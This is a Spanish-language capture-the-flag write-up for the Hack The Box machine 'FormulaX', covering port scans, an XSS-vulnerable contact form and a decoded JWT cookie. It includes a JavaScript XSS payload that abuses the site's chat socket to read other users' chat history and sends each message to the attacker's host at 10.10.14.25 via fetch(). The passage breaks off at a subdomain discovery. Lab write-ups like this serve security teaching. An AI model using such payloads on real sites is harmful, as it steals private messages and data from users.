 ```yaml
---
layout: single
title: FormulaX - Hack The Box
excerpt: "Descripcion"
date: 2024-03-10
classes: wide
header:
  teaser: assets/images/htb-writeup-formulax/logo.PNG
  teaser_home_page: true
  icon: assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Box
  - mongoDB
  - xss
  - csrf
---
```


![](../assets/images/htb-writeup-formulax/FormulaXTeaser.png)

**RECON**

**PORTS SCAN**

```ruby
sudo nmap -p- -sS --open --min-rate 5000 -Pn -n -vvv 10.129.188.227 -oG allPorts
[sudo] password for anonimo: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 12:55 CET
Initiating SYN Stealth Scan at 12:55
Scanning 10.129.188.227 [65535 ports]
Discovered open port 22/tcp on 10.129.188.227
Discovered open port 80/tcp on 10.129.188.227
Completed SYN Stealth Scan at 12:55, 14.58s elapsed (65535 total ports)
Nmap scan report for 10.129.188.227
Host is up, received user-set (0.11s latency).
Scanned at 2024-03-10 12:55:40 CET for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
           Raw packets sent: 72314 (3.182MB) | Rcvd: 71754 (2.870MB)
```

**SERVICE AND VERSION SCAN**

```ruby

❯ sudo nmap -p22,80 -sCV 10.129.188.227 -oN target
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 12:58 CET
Nmap scan report for 10.129.188.227
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5f:b2:cd:54:e4:47:d1:0e:9e:81:35:92:3c:d6:a3:cb (ECDSA)
|_  256 b9:f0:0d:dc:05:7b:fa:fb:91:e6:d0:b4:59:e6:db:88 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-cors: GET POST
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was /static/index.html
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds

```

Nada Inusual hmm.... Como podemos ver, tenemos el puerto 80 abierto, en este caso corresponde hacer la revisión de lo que está publicado en dicho puerto.
Nos redirige a un formulario login con opcion de registrarnos:
![](../assets/images/htb-writeup-formulax/register1.PNG)

Por encima ver que tenemos la capacidad de interactur con un bot...
![](../assets/images/htb-writeup-formulax/home.PNG)

Al parecer el serivicio no esta activo pero aun asi podemos ejecutar el comando "help" el cual nos muestra los comandos activos:
```"history -- Shows the Previous Sent"```

![](../assets/images/htb-writeup-formulax/chat1.PNG)

Parece interesante pero vamos a continuar con la enumeracion...

![](../assets/images/htb-writeup-formulax/contact1.PNG)

Hmm un formulario, vamos a ver si realmente hace algo por detras.
![](../assets/images/htb-writeup-formulax/contact2.PNG)

Ouu...Parece vulnerable a xss, interesante sigamos enumerando:
![](../assets/images/htb-writeup-formulax/xss1.PNG)

Parece que la cookie es una API key para sean mas seguras las peticiones con la API...

```json
{
"alg":"HS256",
"typ":"JWT"
}
{
"userID"=:"65eda379658edff97d460d42",
"iat":1710072703
}json

Si seguimos enumerando podemos ver que hay un archivo chat.js, en este podemos ver que esta haciendo conexiones socket para conectarse a los chats. hmm..
Espera.. y si utilizamos las funciones para ver chats de otros ususarios?

Si hacemos cremos este archivo .js utilizando las funciones para que nos rediriga los mensages puede que nos de algo, vamos a probarlo:

```javascript
let value;
const res = axios.get(`/user/api/chat`);
const socket = io('/',{withCredentials: true});

const typing_chat_2 = () => {
  value = "history"
  if (value) {
    // sending the  messages to the server
    socket.emit('client_message', value)
    Show_messages_on_screen_of_Client(value);
    // here we will do out socket things..
    document.getElementById('user_message').value = ""
  }
  else {
    alert("Cannot send Empty Messages");
  }
}

socket.on('message', (my_message) => {

  //console.log("Received From Server: " + my_message)
  fetch("http://10.10.14.25/?" + my_message );

})

typing_chat_2()
```

Vamoss..Tenemos lo que parece el historial de algun chat!!

![](../assets/images/htb-writeup-formulax/xss2.PNG)
```
"OPTIONS /?Hello, I am Admin.Testing the Chat Application HTTP/1.1" 200 -
"OPTIONS /?Write a script for  dev-git-auto-update.chatbot.htb to work properly HTTP/1.1" 200 -
"OPTIONS /?Write a script to automate the auto-update
```
Un subdominio? eso parece.. vamos a echar un vistazo
